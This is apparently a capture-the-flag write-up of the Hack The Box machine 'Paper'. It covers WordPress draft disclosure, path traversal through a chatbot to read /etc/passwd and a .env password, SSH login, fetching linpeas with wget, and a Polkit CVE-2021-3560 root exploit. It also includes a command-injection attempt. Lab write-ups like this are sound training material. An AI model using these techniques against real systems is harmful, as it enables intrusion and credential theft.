# 🖨 Paper



Link: [https://app.hackthebox.com/machines/432](https://app.hackthebox.com/machines/432)

### Nmap Scan

Let's start with enumeration with Nmap: `nmap -sS -A -sC -sV -p- -T4 -oN scan.txt $ip`

```
Nmap scan report for 10.129.157.98
Host is up (0.076s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=6/3%OT=22%CT=1%CU=33168%PV=Y%DS=2%DC=T%G=Y%TM=62991E6B
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)SEQ(
OS:SP=100%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A)OPS(O1=M505ST11NW7%O2=M505ST11NW7%O3
OS:=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST11NW7%O6=M505ST11)WIN(W1=7120%W2=7
OS:120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M505NNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   76.24 ms 10.10.14.1
2   75.94 ms 10.129.157.98
```

We can see that port 22, 80, 443 is up in which HTTP server is hosted on Port 80.

So, let's open that in our browser

### TEST Page (port 80)


We can see that there is HTTP SERVER Test Page. There wasnt any thing special on there source too

After inspecting the traffic with Burp or OWASPZap or the browser's network developer tool we can see an unusual header



`X-Backend-Server: office.paper` Let's add this in our host and then try to visit the site

Add our machine IP with the host name: `sudo nano /etc/hosts`



### office.paper

Now let's visit the webpage after successfully adding the Host


The webpage consists of two blogs after opening the blogs we can see that there are two comments ⬇

 

From the 1st comment we got some idea about the secret content which is saved in the _**Drafts**_ of the user _**Michael**_

After checking the source page of the website we got it know that its a website buit on WordPress



Even from the Wappalyzer we can see that it's on Wordpress


for wappalyzer to analyze we must add the IP in the host




So, let's run WPScan on the webpage

```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.21
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://office.paper/ [10.129.157.98]

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
 |  - X-Powered-By: PHP/7.2.24
 |  - X-Backend-Server: office.paper
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://office.paper/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] WordPress version 5.2.3 identified (Insecure, released on 2019-09-05).
 | Found By: Rss Generator (Passive Detection)
 |  - http://office.paper/index.php/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
 |  - http://office.paper/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>

[+] WordPress theme in use: construction-techup
 | Location: http://office.paper/wp-content/themes/construction-techup/
 | Last Updated: 2021-07-17T00:00:00.000Z
 | Readme: http://office.paper/wp-content/themes/construction-techup/readme.txt
 | [!] The version is out of date, the latest version is 1.4
 | Style URL: http://office.paper/wp-content/themes/construction-techup/style.css?ver=1.1
 | Style Name: Construction Techup
 | Description: Construction Techup is child theme of Techup a Free WordPress Theme useful for Business, corporate a...
 | Author: wptexture
 | Author URI: https://testerwp.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://office.paper/wp-content/themes/construction-techup/style.css?ver=1.1, Match: 'Version: 1.1'

[+] Enumerating Vulnerable Plugins (via Passive Methods)

] No plugins Found.
```

Now we have the `WordPress version 5.2.3` Same was also specified by Wappalyzer.

After searching on google we got this Vulnerability [https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2](https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2)

This will allow us to view private/draft post. Remember that we saw a comment regarding [Draft](paper.md#undefined)

So, let's look at that draft by using: `http://office.paper/?static=1`

#### Viewing Drafts



Okay, now we have some information and a new Host!


Secret Registration to a chat system :hushed:

Again, heads up to `nano /etc/hosts` and add the this (do this as root)

```
10.129.157.98 chat.office.paper
```

### Rocket.Chat

Opening the secret link that we got in the Drafts we are directed to


Now, create a new account and then login with the same 

After logging in wait for 10 - 15 sec we would be automatically added to a group chat



We don't have access to write in the chat box. Let's scroll up and read some of the chats that the employee had.

Okay we get to know that one of the users named "kellylikescupcake" added a bot named "recyclops" to the group



Here got an intro from Bot about what he/she can do also it have some interesting commands that we can use to gain the foothold


Okay from this we got to know that these two commands are of some use `recyclops file {filename}` and `recyclops list {directoryname}`

kellylikescupcake also told us that we can DM the bot! 

Now click on the bot and then click on the DM button to start a direct converstion with the bot


The bot is trying to read files using `cat` command. So let's try to get our user flag but..


Bot does not have access to the `users.txt`

and bot is also restricting us to do the command injection

```
recyclops list /../ && cat user.txt
```

.png>)

Let's try to read `/etc/passwd`



```
 <!=====Contents of file ../../../../../../etc/passwd=====>
root❌0:0:root:/root:/bin/bash
bin❌1:1:bin:/bin:/sbin/nologin
daemon❌2:2:daemon:/sbin:/sbin/nologin
adm❌3:4:adm:/var/adm:/sbin/nologin
lp❌4:7:lp:/var/spool/lpd:/sbin/nologin
sync❌5:0:sync:/sbin:/bin/sync
shutdown❌6:0:shutdown:/sbin:/sbin/shutdown
halt❌7:0:halt:/sbin:/sbin/halt
mail❌8:12:mail:/var/spool/mail:/sbin/nologin
operator❌11:0:operator:/root:/sbin/nologin
games❌12💯games:/usr/games:/sbin/nologin
ftp❌14:50:FTP User:/var/ftp:/sbin/nologin
nobody❌65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus❌81:81:System message bus:/:/sbin/nologin
systemd-coredump❌999:997:systemd Core Dumper:/:/sbin/nologin
systemd-resolve❌193:193:systemd Resolver:/:/sbin/nologin
tss❌59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
polkitd❌998:996:User for polkitd:/:/sbin/nologin
geoclue❌997:994:User for geoclue:/var/lib/geoclue:/sbin/nologin
rtkit❌172:172:RealtimeKit:/proc:/sbin/nologin
qemu❌107:107:qemu user:/:/sbin/nologin
apache❌48:48:Apache:/usr/share/httpd:/sbin/nologin
cockpit-ws❌996:993:User for cockpit-ws:/:/sbin/nologin
pulse❌171:171:PulseAudio System Daemon:/var/run/pulse:/sbin/nologin
usbmuxd❌113:113:usbmuxd user:/:/sbin/nologin
unbound❌995:990:Unbound DNS resolver:/etc/unbound:/sbin/nologin
rpc❌32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
gluster❌994:989:GlusterFS daemons:/run/gluster:/sbin/nologin
chrony❌993:987::/var/lib/chrony:/sbin/nologin
libstoragemgmt❌992:986:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
saslauth❌991:76:Saslauthd user:/run/saslauthd:/sbin/nologin
dnsmasq❌985:985:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin
radvd❌75:75:radvd user:/:/sbin/nologin
clevis❌984:983:Clevis Decryption Framework unprivileged user:/var/cache/clevis:/sbin/nologin
pegasus❌66:65:tog-pegasus OpenPegasus WBEM/CIM services:/var/lib/Pegasus:/sbin/nologin
sssd❌983:981:User for sssd:/:/sbin/nologin
colord❌982:980:User for colord:/var/lib/colord:/sbin/nologin
rpcuser❌29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
setroubleshoot❌981:979::/var/lib/setroubleshoot:/sbin/nologin
pipewire❌980:978:PipeWire System Daemon:/var/run/pipewire:/sbin/nologin
gdm❌42:42::/var/lib/gdm:/sbin/nologin
gnome-initial-setup❌979:977::/run/gnome-initial-setup/:/sbin/nologin
insights❌978:976:Red Hat Insights:/var/lib/insights:/sbin/nologin
sshd❌74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
avahi❌70:70:Avahi mDNS/DNS-SD Stack:/var/run/avahi-daemon:/sbin/nologin
tcpdump❌72:72::/:/sbin/nologin
mysql❌27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
nginx❌977:975:Nginx web server:/var/lib/nginx:/sbin/nologin
mongod❌976:974:mongod:/var/lib/mongo:/bin/false
rocketchat❌1001:1001::/home/rocketchat:/bin/bash
dwight❌1004:1004::/home/dwight:/bin/bash
<!=====End of file ../../../../../../etc/passwd=====>
```

<mark style="color:purple;">From this we got the name of the users</mark> <mark style="color:purple;">`rocketchat`</mark> <mark style="color:purple;">and</mark> <mark style="color:purple;">`dwight`</mark>

After reading this [https://developer.rocket.chat/bots/creating-your-own-bot-from-scratch/develop-a-hubot-bot](https://developer.rocket.chat/bots/creating-your-own-bot-from-scratch/develop-a-hubot-bot) I got to know that `.env` file have the information about the user bot

Let's try to list the directory of `/` by using command: `recyclops list ../`


Take a look inside the `hubot` directory and we got



Here we got the file that we were looking for `.env`

Here is the content of `.env`



So, we have the password too `ROCKETCHAT_PASSWORD=Queenofblad3s!23`

### Getting user shell

Let's try to connect to the machine via SSH. Remember that we got two usernames from the passwd file `rocketchat` and `dwight` with password `Queenofblad3s!23`



BOOM! we are in now. We can now get the user flag via: `cat user.txt`

### Privilege Escalation

Now we have to escalate our privilege to root

Copy [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to machine via SCP or creating python server on out machine then downloading from it. I am using the 2nd method, create a python server on our host machine where `linpeas.sh` is stored by: `python -m http.server` Then use wget from the dwight shell: `wget http://{ip}:8000/linpeas.sh`

then

```
chmod +x linpeas.sh
./linpeas.sh
```

.png>)

So, we have a famous vulnerability "Polkit-exploit CVE-2021-3560" .

We have python3 installed in our machine so we can use this exploit to gain the root shell [https://github.com/Almorabea/Polkit-exploit](https://github.com/Almorabea/Polkit-exploit)

just create the file name `poc.py by`: touch `poc.py` and paste the above exploit

```
chmod +x poc.py
python3 poc.py
```



BOOM! we got the root shell!

```
cat /root/root.txt
```

Pwned!

**Thanks for reading the write-up. Hope you have enjoyed and learned.**\
\
**Have any question feel free to ping me on** [**Twitter**](https://twitter.com/0xs0m)

***
